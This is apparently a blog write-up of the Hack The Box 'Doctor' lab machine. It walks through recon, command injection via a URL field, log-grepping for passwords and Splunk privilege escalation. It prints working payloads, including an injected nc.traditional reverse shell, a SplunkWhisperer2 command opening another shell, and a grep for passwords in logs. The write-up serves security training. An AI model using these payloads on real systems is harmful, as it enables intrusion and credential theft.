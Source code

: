 ```yaml
---
layout: post
title:  "Hack The Box - Doctor Writeup"
date:   2021-02-06 06:00:00
categories: Security CTF HTB"
author: Ryan
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](../images/HTB-Doctor/Header.png)

Doctor is an Easy level linux machine. Based on the creator and community statistics, this box is fairly balanced over the type of approach we'll need to take, leaning slightly more towards the "CVE" and "Real" categories.  
![Statistics](../images/HTB-Doctor/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap with write the results to our Extracts folder (`-oA`)  
`>> nmap -p22,80,8089 -sV -sC -oA Extracts/Doctor 10.10.10.209`  
![Nmap](../images/HTB-Doctor/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 80 - HTTP**: A basic websever hosting what appears to be a customer-facing website advertising a doctor and his services.
* **Port 8089 - Splunkd**: [Splunk](https://www.splunk.com/), is a software platform used to search, analyze, and visualize data. Commonly used for event logs.

### Customer Website
Navigating to [10.10.10.209](10.10.10.209) allows us to take a look around the website and try to find any clues that may lead to some sort of login or feature we can leverage. One of the first peices of information we find is the email address for `info@doctors.htb`. Let's get that added to our hosts file and check it out.  
![New Host](../images/HTB-Doctor/Recon_Email.png)

### Doctors Secure Messaging
Navigating to the [doctors.htb](doctors.htb) site, we're shown a login screen for what appears to be some sort of internal messaging system. While we're not able to log in with any credentials, we do have the ability to create a new account lasting for 20 minutes.  
![Account Creation](../images/HTB-Doctor/Recon_Account.png)

One of the main features in this area of the site is the ability to post messages. After testing various types of content in the message body, we're shown the following error message:  
![URL Validation](../images/HTB-Doctor/Recon_URL.png)

Without observing any client-side javascript conducting this URL validation, it appears to be coming from the server. Let's try to manipulate it.

## Foothold
While [https://www.google.com](https://www.google.com) looks completely legitimate to us, HackTheBox might be blocking it because it's an external resource. Let's try using our own IP in the URL. we can set up out listener with:  
`>> nc -lvnp 1234`

Request:  
![Local URL](../images/HTB-Doctor/Foothold_1_URL.png)

Response:  
![Local URL](../images/HTB-Doctor/Foothold_1_URL2.png)

Interstingly, we recieve the same invalid error message as before, but by checking our listener, we see the target box made a call to our machine using `curl`.

### Testing for Injection
As the box's "Doctor" name and logo suggests, we should test out the possibility for injection. If the application is passing our URL directly into curl, it could be possible to use [Command Substitution](https://tldp.org/LDP/abs/html/commandsub.html) to run additional commands. Let's try adding the output of a simple `whoami` to the end of our URL to verify:  

Request:  
![Local URL](../images/HTB-Doctor/Foothold_1_Injection.png)

Response:  
![Local URL](../images/HTB-Doctor/Foothold_1_Injection2.png)

We're succesfully able to inject additional commands into the url verification. Looks like we're running as the `web` user.

### Weaponizing Our Payload
While we have the ability to run commands through the application, we're able to step up our access by starting a reverse shell. After checking for the tools available to us, we're able to accomplish this through [nc.traditional](https://www.commandlinux.com/man-page/man1/nc.traditional.1.html) and the [Internal Field Separator](https://en.wikipedia.org/wiki/Input_Field_Separators) `$IFS`. 

Listener:  
`>> nc -lvnp 8888`  

Payload:  
`http://10.10.14.2:1234/$(nc.traditional$IFS'10.10.14.2'$IFS'8888'$IFS-e$IFS'/bin/sh')`  

![Reverse Shell](../images/HTB-Doctor/Foothold_1_ReverseShell.png)

## Lateral Movement
Our first step now that we've got a direct connection into the machine is to upgrade the shell.  
![Upgrade Shell](../images/HTB-Doctor/Lateral_UpgradeShell.png)

Looking inside our `web` user's home directory, we see only a couple files related to the blog, but no flag. It appears we'll need to pivot into the user `shaun` to access the first flag.

### Enumeration
As we step through the blog files, we come across the database, `site.db`. Dumping the contents reveals that we'll want to find another way to get access, as the password is protected by a very strong hashing algorithm, bCrypt.  
![Site Databse](../images/HTB-Doctor/Lateral_Database.png)

While we may be unable to retrieve the user's password from the database, it could be worth looking through the application logs to see if we can find anything from before the credentials are hashed. Being a member of the `adm` group, this should be possible.  
`>> groups`  
![User Group](../images/HTB-Doctor/Lateral_Groups.png)  
`>> grep -i password $(find /var/log/apache2 -type f)`  
![Apache Logs](../images/HTB-Doctor/Lateral_Logs.png)

It's pretty common for user's to accidentally type their password into the wrong field. Since we can see this doesn't fit an email pattern, we can try passing `Guitar123` around and see if it gets us anywhere.  
![Shuan User](../images/HTB-Doctor/Lateral_Shaun.png)  

`shaun:Guitar123`

### User Flag
![User Flag](../images/HTB-Doctor/User_Flag.png)  

## Privilege Escalation
Early on, we discovered the existence of a Splunk service running on port 8089. Researching that service led to an interesting Github repository for a tool called [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2). Their primary focus is on "Local privilege escalation, or remote code execution, through Splunk Universal Forwarder (UF) misconfigurations". Let's try getting another reverse shell going through Splunk using shaun's credentials.  

Listener:  
`>> nc -lvnp 9999`

Payload:  
`>> python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username shaun --password Guitar123 --lhost 10.10.14.2 --lport 8888 --payload 'nc.traditional 10.10.14.28 9999 -e /bin/sh'`

![PrivEsc Splunk](../images/HTB-Doctor/PrivEsc_Splunk.png)  
![PrivEsc Root](../images/HTB-Doctor/PrivEsc_Root.png)  

### Root Flag
![Root Flag](../images/HTB-Doctor/Root_Flag.png) 